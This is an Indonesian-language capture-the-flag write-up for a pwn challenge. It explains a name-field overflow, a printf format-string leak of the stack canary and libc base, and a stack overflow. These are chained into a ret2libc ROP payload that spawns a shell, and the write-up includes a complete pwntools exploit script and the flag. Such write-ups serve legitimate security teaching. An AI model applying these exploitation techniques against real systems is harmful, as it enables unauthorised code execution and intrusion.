

# NFXCTF Convention — Pwn (240 pts)


## Deskripsi

> Selamat datang di NFXCTF Hacker Convention! Sebagai peserta konvensi, Anda dapat mendaftarkan diri, bermain mini-game utk meningkatkan level akses (rank), dan meninggalkan pesan rahasia (feedback) kepada panitia. Hanya peserta tingkat "VIP" yang bisa mengakses sistem log umpan balik.

## Recon

Checksec dulu:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       enabled
PIE:      enabled
```

Full RELRO + canary + NX + PIE, jadi gak bisa asal overwrite GOT atau jumping ke shellcode di stack. Binary gak di-strip jadi nama fungsi masih kebaca waktu di-disassemble, lumayan ngebantu.

Fungsi yang ada: `register_user`, `view_profile`, `play_game`, `edit_name`, `leave_feedback`, sama `menu`/`main` buat dispatch pilihan.

Ada struct global `player` di `.bss` (alamat `0x4060`), isinya kira-kira begini kalau dipetain dari disassembly:

```
0x00 - 0x3F  : name (64 byte)
0x40 - 0x43  : level
0x44 - 0x47  : rank
0x48 - 0x4F  : pointer ke string rank ("Newbie")
```

terus ada `log_buf` nempel setelahnya di `0x40c0`.

## Bug #1 — overflow global di `edit_name`

```c
char buf[128];
fgets(buf, 0x80, stdin);
strcpy(player.name, buf);
```

`player.name` cuma 64 byte tapi `strcpy` nulis tanpa cek panjang sama sekali. Jadi kalau input kita lebih dari 64 karakter, sisanya bakal numpuk ke field setelahnya — `level`, `rank`, pointer rank_str.

`edit_name` sendiri ada gate: harus `rank > 4` dulu baru bisa dipanggil. Rank awal cuma `1`, jadi harus menangin `play_game` dulu (jawab 10 soal penjumlahan, angkanya dikasih tau sama programnya sendiri jadi tinggal dijumlahin) biar rank jadi `5`.

Begitu udah bisa masuk `edit_name`, kirim payload:

```
b'A'*68 + bytes([99])
```

68 byte filler buat ngisi `name` + `level`, byte ke-69 langsung nimpa byte rendah dari `rank`. Sisa byte di field `rank` kebetulan udah 0 dari sebelumnya (rank=5 = `05 00 00 00`), jadi hasil akhirnya rank jadi angka gede (puluhan/ratusan), lolos cek VIP (`rank > 19`) di `leave_feedback`.

## Bug #2 — format string di `log_buf`

```c
snprintf(log_buf, 0x100, "%s", feedback_input);   // aman
...
printf(log_buf);                                   // format string bug
```

`leave_feedback` nyimpen feedback kita ke `log_buf` pake `%s` (aman), tapi `view_profile` nanti nge-print `log_buf` LANGSUNG sbg format string, bukan `printf("%s", log_buf)`. Jadi semua spesifier yg kita taro di feedback bakal ke-eksekusi.

Pake ini buat leak:

```python
fmt = b'%1$p|%2$p|%3$p|%4$p|%5$p|%6$p|%7$p|%8$p'
```

kirim via `leave_feedback`, baca hasilnya lewat `view_profile` (opsi 1, bagian "Activity Log").

**Catatan penting:** `read()` di `leave_feedback` sendiri gak dibatasi dan nulis ke buffer stack yg cuma 104 byte sebelum canary — jadi payload leak harus dijaga pendek (<100 byte), kalo kepanjangan malah nabrak canary duluan dan program abort sblm sempet leak (`*** stack smashing detected ***`). Sempet kejadian pas testing.

Hasil leak (posisi 1-8 udah cukup):

```
%3$p = libc + 0x1148c7
%7$p = stack canary (match sama %15$p, berakhiran 00)
```

Offset `0x1148c7` ini aku verifikasi dgn run binary+libc yg sama persis di lokal pake `ld-linux-x86-64.so.2` bawaan, terus cross-check ke `/proc/pid/maps` — diulang 3x run dgn ASLR beda2, offsetnya selalu sama persis. Yang laen (posisi 6, 9, 19, 25, dst) ternyata bukan libc, itu alamat loader sama PIE binary sendiri — kebetulan sama2 awalan `0x7f...` jadi harus dicek satu2 biar gak salah base.

## Bug #3 — stack overflow asli di `leave_feedback`

```c
char buf[...];
read(0, buf, 0x100);
```

Buffer-nya `rbp-0x70`, canary di `rbp-0x8`, jadi jarak ke canary = `0x68` = 104 byte. `read` bisa nulis sampe 256 byte, lebih dari cukup buat nimpa canary, saved rbp, return address, sampe ROP chain.

## Exploit chain

1. Register
2. Menangin mini-game 10x -> rank 5
3. Overflow `rank` lewat `edit_name` -> rank jadi >19, VIP unlocked
4. Format string leak via `leave_feedback` + `view_profile` -> dapet canary & libc base
5. Kirim payload overflow ke `leave_feedback` lagi:

```python
chain = flat(
    b'A' * 104,
    canary,
    b'B' * 8,          # saved rbp, junk
    ret_gadget,        # padding alignment stack 16-byte sblm call system()
    pop_rdi, binsh_addr,
    system_addr,
)
```

Gadget `ret` polos ditambahin sblm manggil `system()` krn misalignment — tanpa ini, `system()` segfault diem2 (gak ada pesan error, koneksi langsung EOF) gara2 instruksi SSE internal glibc butuh stack rata 16-byte.

6. `system("/bin/sh")` ke-trigger, dapet shell, `cat flag*`

## Full script

```python
from pwn import *

context.binary = elf = ELF('./oscar_convention')
libc = ELF('./libc.so.6')

p = remote('s1.nfx.my.id', 45613)

p.recvuntil(b'Enter your name: ')
p.sendline(b'hacker')
p.recvuntil(b'Choice: ')

def select(c):
    p.sendline(str(c).encode())

select(2)
for i in range(10):
    p.recvuntil(b'Q')
    line = p.recvline()
    a, b = map(int, re.findall(rb'(\d+) \+ (\d+)', line)[0])
    p.recvuntil(b'Answer: ')
    p.sendline(str(a + b).encode())
p.recvuntil(b'rank 5')

p.recvuntil(b'Choice: ')
select(3)
p.recvuntil(b'Enter new name: ')
p.sendline(b'A' * 68 + p8(99))
p.recvuntil(b'Name updated.')

p.recvuntil(b'Choice: ')
select(4)
p.recvuntil(b'Enter your feedback: ')
p.send(b'|'.join(b'%'+str(i).encode()+b'$p' for i in range(1,9)) + b'\n')
p.recvuntil(b'Feedback saved to log.')
p.recvuntil(b'Choice: ')
select(1)
p.recvuntil(b'Activity Log: ')
leaks = p.recvline().strip().split(b'|')

canary = int(leaks[6], 16)
libc.address = int(leaks[2], 16) - 0x1148c7

rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = next(libc.search(b'/bin/sh\x00'))

chain = flat(b'A'*104, canary, b'B'*8, ret, pop_rdi, binsh, libc.sym['system'])

p.recvuntil(b'Choice: ')
select(4)
p.recvuntil(b'Enter your feedback: ')
p.send(chain)

p.interactive()
```

## Flag



```
NFX{h4ck3r_c0nv3nt10n_m4st3r_pwn3r_9988776655}
```
